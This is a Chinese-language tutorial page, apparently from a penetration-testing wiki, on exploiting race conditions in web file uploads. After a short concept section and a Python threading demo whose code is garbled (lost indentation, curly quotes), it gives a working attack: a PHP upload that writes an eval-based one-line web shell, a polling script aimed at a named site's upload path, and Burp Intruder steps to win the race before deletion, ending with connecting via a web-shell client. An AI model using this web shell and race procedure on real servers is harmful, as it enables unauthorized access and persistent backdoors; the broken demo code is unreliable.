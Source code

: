 ```yaml
---
title: 条件竞争
id: zhfly3599
---
```


# 条件竞争

> 简单的说就是并行服务器并发执行了多个线程导致了意想不到的结果。同样的，WEB应用程序因为要为很多用户服务，势必要采用多线程，但是，如果种种原因导致线程间的同步机制没处理好，那么也就会导致非预期和条件竞争的漏洞。在Web安全中，大致就是检测文件后缀，不符合条件，就删除。这种方式。所以我们使用多线程并发去访问该文件。总会碰到在删除文件这个时间段之前访问到PHP文件。一旦成功访问，就说明写了一个Shell。 攻击流程逻辑大概是这样。上传shell-不断访问shell.php shell生成马.php--删除shellp.php

## 举例

> up.py

```
#-*-coding:utf-8-*-
import threading
up = 0

def Run(threads_name):

global up

read_value = up

print “up 值为-%s 或 %d” % (str(threads_name), read_value)

up = read_value + 1

def main():

threads = []

for j in range(10):

t = threading.Thread(target=Run,args=(j,))

threads.append(t)

t.start()

for i in range(len(threads)):

threads<i>.join()

print(“结束值为 %d” % (up,)) `if **name** == ‘**main**’:

main()` 
```

![image](../img/9a893e2f1d352782e69acf014368b4a0.png)

## 实战中的利用

> 该系统拿到了后台地址跟管理员。后台的系统设置这里自带文件上传。但是不论是改后缀还是改格式，都会失败。

![image](../img/ab06a8db5fd23f58350a5334ef8d08fc.png)

**绕过** 1.生成shell.php和bp.py

![image](../img/de6a992274ee7beb12e923baeaf035de.png)

```
<?PHP echo md5(1);fputs(fopen('shell.php','w'),'<?php @eval($_POST[qwer123])?>');?> 
```

> bp.py

```
# coding:utf-8
import requests
def main():
    i=0
    while 1:
        try:
            print(i,end='\r')
            a = requests.get("http://www.0-sec.org/upload/shell.php")
            if "551207d090782423b5dce5b29c92c68d" in a.text:
                print("OK")
                break
        except Exception as e:
            pass
        i+=1
if __name__ == '__main__':
    main() 
```

打开burp.上传马。截断。发送到Intruder模块。这时候Positions里不用选择任何参数。到Payloads内。

![image](../img/43120d3506ec8e1926b4ec652baec413.png)

Payloads选择为null，生成空字符。

![image](../img/1bcaa6bcd97364b4aaefa489d5f4048f.png)

这时候运行bp.py，同时burpsuite开启astart attack

![image](../img/d7f5b668ff88721305545b424e0dfd22.png)

偶尔会需要再提交一次。这时候请多试几次。直到bp.py显示OK为止。

![image](../img/7576bb5980d62a4a6b3476eae9b6ca2a.png)

这时候已经成功了。用蚁剑菜刀就可以直接连接一句话了。

![image](../img/86db8fc37d89befcb7b1b8cbe6538c85.png)